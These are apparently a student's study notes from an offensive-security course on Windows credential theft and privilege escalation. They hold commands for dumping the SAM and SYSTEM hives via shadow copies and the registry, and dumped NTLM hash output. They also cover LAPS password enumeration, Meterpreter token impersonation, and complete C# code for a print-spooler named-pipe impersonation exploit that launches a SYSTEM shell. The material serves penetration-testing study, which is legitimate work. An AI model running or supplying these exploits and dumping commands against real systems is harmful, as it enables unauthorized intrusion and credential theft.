



# Windows credentials

Windows implements a variety of authentication and post-authentication privilege mechanisms 
that can become quite complex in an Active Directory environment.

# Local windows Credentials

Windows can authenticate local user accounts as well as those belonging to a domain, which are 
stored within Active Directory

# SAM Database

Local Windows credentials are stored in the Security Account Manager (SAM) database670 as 
password hashes using the NTLM hashing format,671 which is based on the MD4 algorithm.

Security identifier in windows 
S-R-I-S

In this structure, the SID begins with a literal “S” to identify the string as a SID, followed by a 
revision level (usually set to “1”), an identifier-authority value (often “5”) and one or more 
subauthority values.
The subauthority will always end with a Relative Identifier (RID)675 representing a specific object 
on the machine.

Let’s use PowerShell and WMI to locate the SID of the local administrator account on our 
Windows 10 victim machine

```
PS C:\Users\HP> $env:computername
WINWORK

PS C:\Users\HP> [wmi] "Win32_userAccount.Domain='WINWORK',Name='Administrator'"


AccountType : 512
Caption     : WINWORK\Administrator
Domain      : WINWORK
SID         : S-1-5-21-1182164374-3560096269-1489256248-500
FullName    :
Name        : Administrator

```

In order to otain credentials from SAM database. 
located at `C:\Windows\System32\config\SAM` but the SYSTEM process has an exclusice lock on it.

potential workarounds.
1/ using Volume Shadow Copy Server, we create a snapshot of the local hard drive with vssadmin. create shadow is awailable in servers.

2/ through wmi we will create a shadow copy of the source deive with `Volume='C:\'`

`wmic shadowcopy call create Volume='C:\'`
This has to be run in Administrator

```
C:\WINDOWS\system32>wmic shadowcopy call create volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{7C036CC7-93E5-4FCD-AF60-7B6962DD711F}";
};
```

to verify we use vssadmin


vssadmin list shadows

```
C:\WINDOWS\system32>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {cdf70d69-615e-4c56-9359-c9ca584f0d3e}
   Contained 1 shadow copies at creation time: 25-08-2022 12:16:16
      Shadow Copy ID: {7c036cc7-93e5-4fcd-af60-7b6962dd711f}
         Original Volume: (C:)\\?\Volume{93e4830a-3122-41fd-acfa-b6c2e7f186ec}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: winwork.misthios.ncg.in
         Service Machine: winwork.misthios.ncg.in
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

we can use this shadow copy to copy file:

```
C:\WINDOWS\system32>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\
        1 file(s) copied.
```

Although we have copied the SAM database, it is partially encrypted by either RC4 or AES. The keys are stored in a system file also locked by the system account

```
C:\WINDOWS\system32>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\Users\HP\Documents\pen300\book\chapter12\system
        1 file(s) copied.
```

We can also obtain a copy of the SAM database and SYSTEM files from the registry in the
HKLM\sam and HKLM\system hives, respectively. Administrative permissions are required to
read and copy.

```
C:\WINDOWS\system32>reg save HKLM\sam C:\users\HP\sam
The operation completed successfully.

C:\WINDOWS\system32>reg save HKLM\system C:\users\HP\system
The operation completed successfully.
```

two tools to use to decrypt he signatures

1. mimikatz
2. creddump

we will use creddump
however the correct location maybe here
for credential dump : https://github.com/moyix/creddump
for pycrypto its now pycryptodome: pip install pycryptodome

but pycrypto has problems in python currently the workaround is  to use: https://bytemeta.vip/repo/lgandx/Responder/issues/144
dowload release from https://github.com/pycrypto/pycrypto
sudo python ./setup.py build
sudo python ./setup.py install

```
kali@kali:~/creddump$ python pwdump.py ~/Downloads/system ~/Downloads/SAM 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HP:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
m:1007:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

these are the ntlm hashes. which can be cracked.

### 12.1.1.1 Exercises
1. Dump the SAM and SYSTEM files using a Volume Shadow copy and decrypt the NTLM
hashes with Creddump7.

done above

2. Obtain the NTLM hash for the local administrator account by dumping the SAM and
SYSTEM files from the registry.

we can download the files through this method and then rest of the steps remain same

3. Run a Meterpreter agent on the Windows 10 client and use hashdump to dump the NTLM
hashes.
meterpreter also dumps hashdump

# Hardening the local administrator account

MIcrosoft introduced Group Policy Preferences. this is stored in SYSVOl folder which must be accessible to all computers in Active Directory. And then it was AES encrypted by Microsoft.

MIcrosoft published the private key on MSDn. Get-GPPPassword powershell scrupt could easily locate and decrypt any passwords found in affected systems SYSVOL folder

Microsoft introduced LAPS in 2015 whcihc offered a secure and scalable way of remotely managing the local administrator password for domain joined computers.

it inroduces two new attributes tot the computer object into active directory.

1. ms-mcs-AdmPwdExpirationTime- which registers the expiration time of a password as directed through group policy.
2.  ms-mcs-AdmPwd contains clear text password through a group policy. 

LAPS uses admpwd.dll to change the local administrator password and push the
new password to the ms-mcs-AdmPwd attribute of the associated computer object.

Instead, we can use the LAPSToolkit692 PowerShell script, which is essentially a wrapper script
around the PowerView693 Active Directory enumeration PowerShell script.

# LAPSToolkit - wrap around powerview
https://github.com/leoloobeek/LAPSToolkit

after amsi
```
PS C:\Users\HP\Documents\pen300\book\chapter12> GET-LAPSComputers
Exception calling "GetCurrentDomain" with "0" argument(s): "Current security context is 
not associated with an Active Directory domain or forest."
At C:\Users\HP\Documents\pen300\book\chapter12\LAPSToolkit.ps1:952 char:9
+         [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrent ...
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
    + FullyQualifiedErrorId : ActiveDirectoryOperationException
 
WARNING: Error: Exception calling "FindAll" with "0" argument(s): "Unknown error 
(0x80005000)"
```

this error comes because of lack of ad
This will show the delegated
```
Find-LAPSDelegatedGroups
```
we can also use netgroupmemeber -GroupName to specify the group name.

```
PS C:\Tools> Get-NetGroupMember -GroupName "LAPS Password Readers"
```

### 12.1.2.1 Exercises
1. Repeat the LAPS enumeration and obtain the clear text password using LAPSToolKit from
the Windows 10 victim machine

2. Create a Meterpreter agent on the Windows 10 victim machine and perform the same
actions remotely from your Kali Linux machine.

# Access Tokens

authorisation is kept in check using user access tokens.

# Access Token Theory

integrity levels - low, medium, high and system
low - for sandbox environments like web browsers
medium - regular user applications
administrators - high integrity
system - self explanatory

Local admin - have regular integrity
and then run as admin - high integrity

UAC (user access control) mechanism links these two tokens together. 

privileges are included in the access token, privileges are controleed by two bitmasks. First sets the privleges that are present for that specific  token and cannot be modified through any apis inside the same logon session. The second registers if the present privileges are enabled or disabled and may be dynamically updated through win32 adjusttokenPrivilegs api.

```
PS C:\Users\WIN10RED\Documents\pen300> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State 
  
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
PS C:\Users\WIN10RED\Documents\pen300> 
```

we cant remove exiting privilegs however we can add additional privileges

While it is impossible to modify the set of privileges that are associated with an active logon 
session, it is however possible to add additional privileges that will take effect after the targeted 
user account logs out and logs back in.
Programmatically this can be done with the Win32 LsaAddAccountRights701 API, but more often it 
would be performed through a group policy or locally through an application like secpol.msc702
as displayed in Figure 225


### 12.2.1.1 Exercise
1. Use cmd.exe and the whoami command to view the privileges for both a regular user 
command prompt as well as an elevated command prompt
done

# Elevation with impersonation

various ways to levrage certain privileges for escalation

There are 9 didfferent way:

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

two privileges that are required are for rotten potato
using rotten potato for privilege escalation - https://github.com/breenmachine/RottenPotatoNG - seimpersonate privilege needs to be there

privileges in total that were abused-

SeImpersonatePrivilege
SeAssignPrimaryPrivilege
SeTcbPrivilege
SeBackupPrivilege
SeRestorePrivilege
SeCreateTokenPrivilege
SeLoadDriverPrivilege
SeTakeOwnershipPrivilege
SeDebugPrivilege

search for whoami /priv to dinf our what is applicable

we can impersonate any token for which we can get a reference or handle.  IIS always has this by default. Thats why rce on a web shell might be important.

SeIMpersonatePrivilege often use the Win32 DuplicateTokenEx API to create a primary token for impersonation.

we are using a post exploitation attack that relies on windows pipes.

Pipes are for interprocess commuication.

A pipe is a section of shared memory inside the kernel that process can use for communication. one process will makea pipe and the other process can read write information.

anonymous pipes for communication between parent and child process
named pipes are more broadly used.

named pipes support impoersonation.

we are trying to get system accunt to connect to a named pipe set up by an attacker.

it is done through print spooler service which runs on system context

print spooler monitors printer object changes and sends change notifications to print clients by connecting to their respective named pipes. 

if we create a proess running with SeImpersonatePrivilege that simulates a print client we will obtain a SYSTEM token that we can impersonate.

To demonstrate this, we will create C# application that creates a pipe servver and waits for a connection and attempts to impersonate the client that connects to it.

ImpersonateNamedPipeClient
CreateNamedPipe
ConnectNamedPipe

### CreateNamedPipeA

```
HANDLE CreateNamedPipeA(
  [in]           LPCSTR                lpName, # pipename - format  - \\.\pipe\pipename
  [in]           DWORD                 dwOpenMode, # dwOpenMode PIPE_ACCESS_DUPLEX enum and is equivalent of 3
  [in]           DWORD                 dwPipeMode, # PIPE_TYPE_BYTE and PIPE_WIAT
  [in]           DWORD                 nMaxInstances,# between 1 and 255
  [in]           DWORD                 nOutBufferSize, # 0x1000
  [in]           DWORD                 nInBufferSize, # 0x1000
  [in]           DWORD                 nDefaultTimeOut, # 0
  [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes
);
```


```

to list named pipes :

```powershell
PS C:\Users\HP> [System.IO.Directory]::GetFiles("\\.\\pipe\\")
\\.\\pipe\\InitShutdown
\\.\\pipe\\lsass
\\.\\pipe\\ntsvcs
\\.\\pipe\\scerpc
\\.\\pipe\\Winsock2\CatalogChangeListener-2f4-0
\\.\\pipe\\Winsock2\CatalogChangeListener-3e8-0
\\.\\pipe\\epmapper
\\.\\pipe\\Winsock2\CatalogChangeListener-250-0
\\.\\pipe\\LSM_API_service
\\.\\pipe\\Winsock2\CatalogChangeListener-1c4-0
\\.\\pipe\\atsvc
\\.\\pipe\\eventlog
\\.\\pipe\\Winsock2\CatalogChangeListener-648-0
\\.\\pipe\\Winsock2\CatalogChangeListener-534-0
\\.\\pipe\\wkssvc
\\.\\pipe\\TermSrv_API_service
\\.\\pipe\\Ctx_WinStation_API_service
\\.\\pipe\\srvsvc
\\.\\pipe\\SessEnvPublicRpc
\\.\\pipe\\Winsock2\CatalogChangeListener-a64-0
\\.\\pipe\\spoolss
\\.\\pipe\\Winsock2\CatalogChangeListener-c0c-0
\\.\\pipe\\trkwks
\\.\\pipe\\vgauth-service
\\.\\pipe\\W32TIME_ALT
\\.\\pipe\\Winsock2\CatalogChangeListener-2e0-0
\\.\\pipe\\Winsock2\CatalogChangeListener-774-0
\\.\\pipe\\browser
\\.\\pipe\\ROUTER
\\.\\pipe\\PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
\\.\\pipe\\MsFteWds
\\.\\pipe\\SearchTextHarvester
\\.\\pipe\\GoogleCrashServices\S-1-5-18
\\.\\pipe\\GoogleCrashServices\S-1-5-18-x64
\\.\\pipe\\LOCAL\crashpad_8448_QYUZKVTVVALAURMI
\\.\\pipe\\LOCAL\mojo.8448.8452.12086734017565636582
\\.\\pipe\\LOCAL\mojo.8448.8452.2715017532755955870
\\.\\pipe\\LOCAL\mojo.8448.8648.8652493699449017659
\\.\\pipe\\LOCAL\mojo.8448.8648.5489605534324796864
\\.\\pipe\\LOCAL\mojo.8448.8452.7930760313427659378
\\.\\pipe\\LOCAL\mojo.8448.8648.2683836670789291820
\\.\\pipe\\LOCAL\mojo.external_task_manager_8448
\\.\\pipe\\LOCAL\mojo.8448.8452.7516465052930967985
\\.\\pipe\\LOCAL\mojo.8448.8648.1131271969707673641
\\.\\pipe\\LOCAL\mojo.8448.8648.4324666146515799488
\\.\\pipe\\LOCAL\mojo.8448.8648.13008396823400832788
\\.\\pipe\\LOCAL\mojo.8448.8452.12672853552456055722
\\.\\pipe\\LOCAL\mojo.8448.8452.16688316265066250276
\\.\\pipe\\LOCAL\mojo.8448.8648.16786454823625649801
\\.\\pipe\\LOCAL\mojo.8448.8648.16998835998525809685
\\.\\pipe\\LOCAL\mojo.8448.8648.7608631290019781186
\\.\\pipe\\LOCAL\mojo.8448.8648.11997790032646474622
\\.\\pipe\\dotnet-diagnostic-9604
\\.\\pipe\\crashpad_6636_JPIVMGLTANABFCYP
\\.\\pipe\\mojo.6636.948.17111454641751927451

```

# program to connect ot a named pipe

```C#
using System;
using System.Runtime.InteropServices;

namespace console_csharp
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode,
        uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize,
        uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

        [DllImport("kernel32.dll")]
        static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);

        [DllImport("Advapi32.dll")]
        static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

        static void Main(string[] args)
        {
            if (args.Length ==0)
            {
                Console.WriteLine("Usage: console_sharp.exe pipename");
                return;
            }
            string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);
            ConnectNamedPipe(hPipe, IntPtr.Zero);
            ImpersonateNamedPipeClient(hPipe);
        }
    }
}
```

Since we have no way to confirm that the impersonation actually worked we need to 

open the impersonated token with
OpenThreadToken722 and then use GetTokenInformation723 to obtain the SID associated with the
token. Finally, we can call ConvertSidToStringSid724 to convert the SID to a readable SID string


we will use OpenthreadToken, GetTokenInformation

```
BOOL OpenThreadToken(
HANDLE ThreadHandle, # we will use GetCurrentThread
DWORD DesiredAccess, # # TOKEN_ALL_ACCESS 0xF01FF
BOOL OpenAsSelf, # False
PHANDLE TokenHandle # handle to token will be populated in this pointer
);

BOOL GetTokenInformation(
HANDLE TokenHandle, # from openThread Token TokenHandle
TOKEN_INFORMATION_CLASS TokenInformationClass, # type of information its is an enum that has value specifying the tyype of information we can retrieve - 1
LPVOID TokenInformation, # pointer to output buffer 
DWORD TokenInformationLength, # NULL
PDWORD ReturnLength # 0
);
```

We may have to call the GetTokenInformation twice since we need to know the token information length.

and as a final steo we will use conversidTo StringSid to convert the binary SID to a SID string that we can read.

```
using System;
using System.Runtime.InteropServices;

namespace console_csharp
{

    [StructLayout(LayoutKind.Sequential)]
    public struct SID_AND_ATTRIBUTES
    {
        public IntPtr Sid;
        public int Attributes;
    }
    public struct TOKEN_USER
    {
        public SID_AND_ATTRIBUTES User;
    }
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode,
        uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize,
        uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

        [DllImport("kernel32.dll")]
        static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);

        [DllImport("Advapi32.dll")]
        static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentThread();
        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool
        OpenAsSelf, out IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool GetTokenInformation(IntPtr TokenHandle, uint TokenInformationClass,
        IntPtr TokenInformation, int TokenInformationLength, out int ReturnLength);

        [DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
        static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);

        static void Main(string[] args)
        {
            if (args.Length ==0)
            {
                Console.WriteLine("Usage: console_sharp.exe pipename");
                return;
            }
            string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);
            ConnectNamedPipe(hPipe, IntPtr.Zero);
            ImpersonateNamedPipeClient(hPipe);

            IntPtr hToken;
            OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);

            int TokenInfLength = 0;
            GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);
            IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
            GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);

            TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
            IntPtr pstr = IntPtr.Zero;
            Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
            string sidstr = Marshal.PtrToStringAuto(pstr);
            Console.WriteLine(@"Found sid {0}", sidstr);
        }
    }
}
```



to check whether it is correct we can dump the sid

```
C:\>whoami /user

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20
```

now we sheft our attention to print spooler service. Communication to the spool 

Print System Remote Prototcol worjs with named pipes - \pipe\spoolss

RpcOpenPrinter- monitors printer object changes

RpcRemoteFindFirstPrinterChangeNotification - notifies changes to print client

MSRPN cannot be called directly. Print spooler functionality resides in unmaanged RPCRT4.dll and is called through a proxy function NdrClientCall3 which uses a binary format to pass and invoke underlying function.

we use the spoolsample C# implementation by Lee Christensen- https://github.com/leechristensen/SpoolSample
or the powershell scanner written by Le Toux - https://github.com/vletoux/SpoolerScanner

Problem with spoolsample.exe - 

The SpoolSample application was supposed to be used in AD setting.

when we use spoolsample we must specify the name of the server to connect to and the name of the server we control 

the print spooler service running as SYSTEM needs to contact the simulated print client but since they are on the same host, they in effect require the same default pipe name (pipe\spoolss) because of this we cannot use the same named pipe with required name easily

after building SpoolSample.exe

```
C:\Users\WIN10RED\Documents\SpoolSample\SpoolSample\bin\Debug>SpoolSample.exe DESKTOP-ATB3U19 appsrv01\test
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\DESKTOP-ATB3U19, CaptureServer: \\appsrv01\test
```

in combination with out impersonator. (cryptopals_exe and SpoolSample.exe)



if it had worked then we can use CreatePRocessWithTokenEx

and DuplicateTokenEx to launch a command prompt

full code for spooler lpe

```c#
using System;
using System.Runtime.InteropServices;

namespace console_csharp
{

    [StructLayout(LayoutKind.Sequential)]
    public struct SID_AND_ATTRIBUTES
    {
        public IntPtr Sid;
        public int Attributes;
    }
    public struct TOKEN_USER
    {
        public SID_AND_ATTRIBUTES User;
    }
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern IntPtr CreateNamedPipe(string lpName, uint dwOpenMode,
        uint dwPipeMode, uint nMaxInstances, uint nOutBufferSize, uint nInBufferSize,
        uint nDefaultTimeOut, IntPtr lpSecurityAttributes);

        [DllImport("kernel32.dll")]
        static extern bool ConnectNamedPipe(IntPtr hNamedPipe, IntPtr lpOverlapped);

        [DllImport("Advapi32.dll")]
        static extern bool ImpersonateNamedPipeClient(IntPtr hNamedPipe);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentThread();
        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool OpenThreadToken(IntPtr ThreadHandle, uint DesiredAccess, bool
        OpenAsSelf, out IntPtr TokenHandle);

        [DllImport("advapi32.dll", SetLastError = true)]
        static extern bool GetTokenInformation(IntPtr TokenHandle, uint TokenInformationClass,
        IntPtr TokenInformation, int TokenInformationLength, out int ReturnLength);

        [DllImport("advapi32", CharSet = CharSet.Auto, SetLastError = true)]
        static extern bool ConvertSidToStringSid(IntPtr pSID, out IntPtr ptrSid);

        [DllImport("advapi32.dll", CharSet = CharSet.Auto, SetLastError = true)]
        public extern static bool DuplicateTokenEx(IntPtr hExistingToken, uint dwDesiredAccess, IntPtr lpTokenAttributes, uint ImpersonationLevel, uint TokenType, out IntPtr phNewToken);

        [StructLayout(LayoutKind.Sequential)]
        public struct PROCESS_INFORMATION
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public int dwProcessId;
            public int dwThreadId;
        }
        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
        public struct STARTUPINFO
        {
            public Int32 cb;
            public string lpReserved;
            public string lpDesktop;
            public string lpTitle;
            public Int32 dwX;
            public Int32 dwY;
            public Int32 dwXSize;
            public Int32 dwYSize;
            public Int32 dwXCountChars;
            public Int32 dwYCountChars;
            public Int32 dwFillAttribute;
            public Int32 dwFlags;
            public Int16 wShowWindow;
            public Int16 cbReserved2;
            public IntPtr lpReserved2;
            public IntPtr hStdInput;
            public IntPtr hStdOutput;
            public IntPtr hStdError;
        }
        [DllImport("advapi32", SetLastError = true, CharSet = CharSet.Unicode)]
        public static extern bool CreateProcessWithTokenW(IntPtr hToken, UInt32 dwLogonFlags,
        string lpApplicationName, string lpCommandLine, UInt32 dwCreationFlags, IntPtr
        lpEnvironment, string lpCurrentDirectory, [In] ref STARTUPINFO lpStartupInfo, out
        PROCESS_INFORMATION lpProcessInformation);
        static void Main(string[] args)
        {
            if (args.Length == 0)
            {
                Console.WriteLine("Usage: console_sharp.exe pipename");
                return;
            }
            string pipeName = args[0];
            IntPtr hPipe = CreateNamedPipe(pipeName, 3, 0, 10, 0x1000, 0x1000, 0, IntPtr.Zero);
            ConnectNamedPipe(hPipe, IntPtr.Zero);
            ImpersonateNamedPipeClient(hPipe);

            //confirming whether we got the correct pipe
            IntPtr hToken;
            OpenThreadToken(GetCurrentThread(), 0xF01FF, false, out hToken);

            int TokenInfLength = 0;
            GetTokenInformation(hToken, 1, IntPtr.Zero, TokenInfLength, out TokenInfLength);
            IntPtr TokenInformation = Marshal.AllocHGlobal((IntPtr)TokenInfLength);
            GetTokenInformation(hToken, 1, TokenInformation, TokenInfLength, out TokenInfLength);

            TOKEN_USER TokenUser = (TOKEN_USER)Marshal.PtrToStructure(TokenInformation, typeof(TOKEN_USER));
            IntPtr pstr = IntPtr.Zero;
            Boolean ok = ConvertSidToStringSid(TokenUser.User.Sid, out pstr);
            string sidstr = Marshal.PtrToStringAuto(pstr);
            Console.WriteLine(@"Found sid {0}", sidstr);

            // adding code for opening a privileged shell
            IntPtr hSystemToken = IntPtr.Zero;
            DuplicateTokenEx(hToken, 0xF01FF, IntPtr.Zero, 2, 1, out hSystemToken);

            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            STARTUPINFO si = new STARTUPINFO();
            si.cb = Marshal.SizeOf(si);
            CreateProcessWithTokenW(hSystemToken, 0, null, "C:\\Windows\\System32\\cmd.exe", 0,
            IntPtr.Zero, null, ref si, out pi);


        }
    }
}
```

further links mentioned

rogue potato
https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/

rpc pipes - https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc787851(v=ws.10)?redirectedfrom=MSDN

winrm - https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/

### 12.2.2.1 Exercises
1. Combine the code and verify the token impersonation.
2. Use the C# code and combine it with previous tradecraft to obtain a Meterpreter, Covenant, 
or Empire SYSTEM shell.
3. Try to use the attack in the context of Local Service instead of Network Service


# fun with incognito

We can also use meterpreter to obtain code execution in their context

`load incognito`
`help incognito`

`list_tokens -u`
`impersonate_token corp1\\admin`
`getuid`

### 12.2.3.1 Exercise
1. Use a SYSTEM Meterpreter shell to list all tokens and impersonate a delegation token for the 
domain user admin.

# Kerberos and DOmain Credentials

How kerberos is implemented in windows

# Kerberos Authentication

since 2003



When a user logs in, a request is sent to the Domain Controller. This DC serves as a KDC and runs 
the Authentication Server service. The initial Authentication Server Request (AS_REQ) contains a 
timestamp encrypted using a hash derived from the current user’s username and password.757
When the service receives the request, it looks up the password hash associated with that user 
and attempts to decrypt the timestamp. If the decryption process is successful and the 
timestamp is not a duplicate (a potential replay attack), the authentication is considered 
successful

The service replies to the client with an Authentication Server Reply (AS_REP), which contains a 
session key (since Kerberos is stateless) and a Ticket Granting Ticket (TGT). The session key is 
encrypted using the user’s password hash, which the client could decrypt and reuse. The TGT 
contains user information (including group memberships), the domain, a timestamp, the IP 
address of the client, and the session key

In order to avoid tampering, the TGT is encrypted by a secret key known only to the KDC and can 
not be decrypted by the client. Once the client has received the session key and the TGT, the KDC 
considers the client authentication complete. By default, the TGT will be valid for 10 hours. During 
this time, the user is not required to retype the password and the TGT can be renewed without 
entering the password.

When the user attempts to access domain resources, such as a network share, Exchange 
mailbox, or some other application with a registered Service Principal Name (SPN),758 the KDC is 
contacted again.
This time, the client constructs a Ticket Granting Service Request (TGS_REQ) packet that consists 
of the current user and a timestamp (encrypted using the session key), the SPN of the resource, 
and the encrypted TGT.

Next, the ticket granting service on the KDC receives the TGS_REQ, and if the SPN exists in the 
domain, the TGT is decrypted using the secret key known only to the KDC. The session key is then 
extracted from the decrypted TGT, and this key is used to decrypt the username and timestamp 
of the request. If the TGT has a valid timestamp (no replay detected and the request has not 
expired), the TGT and session key usernames match, and the origin and TGT IP addresses match, 
the request is accepted.

If this succeeds, the ticket granting service responds to the client with a Ticket Granting Server 
Reply (TGS_REP). This packet contains three parts:
1. The SPN to which access has been granted.
2. A session key to be used between the client and the SPN.
3. A service ticket containing the username and group memberships along with the newlycreated session key

The first two parts (the SPN and session key) are encrypted using the session key associated 
with the creation of the TGT and the service ticket is encrypted using the password hash of the 
service account registered with the target SPN.
Once the authentication process with the KDC is complete and the client has both a session key 
and a service ticket, service authentication begins.

First, the client sends an Application Request (AP_REQ), which includes the username and a 
timestamp encrypted with the session key associated with the service ticket along with the 
service ticket itself.
The service decrypts the service ticket using its own password hash, extracts the session key 
from it, and decrypts the supplied username. If the usernames match, the request is accepted. 
Before access is granted, the service inspects the supplied group memberships in the service 
ticket and assigns appropriate permissions to the user, after which the user may make use of the 
service as required.
This protocol may seem complicated and perhaps even convoluted, but it was designed to 
mitigate various network attacks and prevent the use of fake credentials.

# Mimikatz

Due to the automatic renewal of TGTs, password hashes are cached in the Local Security 
Authority Subsystem Service (LSASS) memory space.
